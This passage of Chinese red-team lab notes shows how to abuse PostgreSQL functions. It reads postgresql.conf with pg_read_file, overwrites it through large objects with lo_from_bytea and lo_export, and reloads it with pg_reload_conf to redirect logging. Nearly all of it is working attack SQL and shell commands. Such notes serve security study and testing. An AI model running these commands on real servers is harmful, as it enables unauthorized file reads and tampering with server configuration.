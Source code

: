 查看内容
```bash
select pg_read_file('/var/lib/postgresql/data/postgresql.conf');
```

将配置文件中的 log_directory 配置修改
```
log_destination = 'csvlog'
log_directory = '/tmp/f0x'
log_filename = 'postgresql-%Y-%m-%d_%H%M%S.log'
log_rotation_size = 100MB
log_rotation_age = 1d
log_min_messages = INFO
logging_collector = on
```

转为 base64 格式
```bash
# 这里我将配置文件的内容存到了 out.txt 中
cat out.txt | base64 -w 0 > base64.txt
```

```sql
-- 将修改后的配置文件加载到largeobject中
select lo_from_bytea(10001,decode('base64的内容,这里略','base64'));

-- 通过lo_export覆盖配置文件
select lo_export(10001,'/var/lib/postgresql/data/postgresql.conf');
SELECT lo_unlink(10001);

-- 重新加载配置文件
select pg_reload_conf();
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/40.png)

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/41.png)
